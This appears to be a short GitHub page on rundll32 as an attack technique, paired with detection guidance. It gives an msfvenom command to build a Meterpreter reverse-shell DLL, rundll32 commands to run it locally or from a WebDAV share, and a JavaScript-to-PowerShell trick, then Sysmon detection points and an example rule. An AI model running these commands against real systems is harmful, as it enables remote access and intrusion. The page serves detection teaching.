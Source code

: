 ## Rundll32

Rundll32 is a legitimate executable in windows that is cable to run 32bit DLLS

Run only 32-bit DLLs

to create DLL from MSF venom

```powershell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[IP] LPORT=[Port] -f dll -o evil.dll
```

then run the dll using one of the following commands

```powershell
rundll32 \\webdavserver\evil.dll,entrypoint
```

```powershell
rundll32 C:\evil.dll,EntryPoint
```

```powershell
rundll32 shell32.dll,Control_RunDLL C:\evil.dll
```


Also can run JavaScript that execute PowerShell
```powershell
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";new%20ActiveXObject("WScript.Shell").Run("powershell  -c new-item c:\\users\\noname\\desktop\\testrund.txt",0);window.close();

```


### Detection

- sysmon

  - Process Create

    - Rundll32 process creation with cmd as parent process

  - Module Loading

    - Rundll32 load module like ws2_32.dll

  - Network Connection

    - from rundll32 process

      

![Mermaid](https://raw.githubusercontent.com/karemfaisal/SMUC---Simplified-Mitre-Use-Cases/master/WSH/Misc/Mermaid.jpg)



**Sysmon Rule** 

```xml
<Sysmon schemaversion="4.00">
<HashAlgorithms>md5,sha256,IMPHASH</HashAlgorithms>
  <EventFiltering>
		<ProcessCreate onmatch="include">
			<Image condition="contains">Rundll32.exe</Image>
		</ProcessCreate>
		
		<NetworkConnection>
			<Image condition="contains">Rundll32.exe</Image>
		</NetworkConnection>
      
		<ImageLoad onmatch="include"> 
			<ImageLoaded condition="contains">ws2_32.dll</ImageLoaded>
		</ImageLoad>
		
		
	</EventFiltering>
</Sysmon>
```

*this rule is just for demonstration, you shouldn't include on process create and Network connection  etc* 

